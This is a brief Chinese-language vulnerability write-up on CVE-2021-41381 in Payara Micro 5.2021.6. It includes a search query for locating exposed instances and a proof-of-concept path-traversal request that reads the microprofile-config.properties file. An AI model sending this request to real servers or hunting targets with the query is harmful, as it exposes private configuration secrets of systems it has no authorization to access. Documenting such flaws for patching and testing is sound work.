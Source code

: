 # PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

# PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

```
Payara Micro Community 5.2021.6
```

## 网络测绘

```
app="Payara-Micro"
```

## 漏洞复现

产品页面

![image-20220525163706617](/images/202205251637689.png)

验证POC

```
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![image-20220525163715004](/images/202205251637074.png)

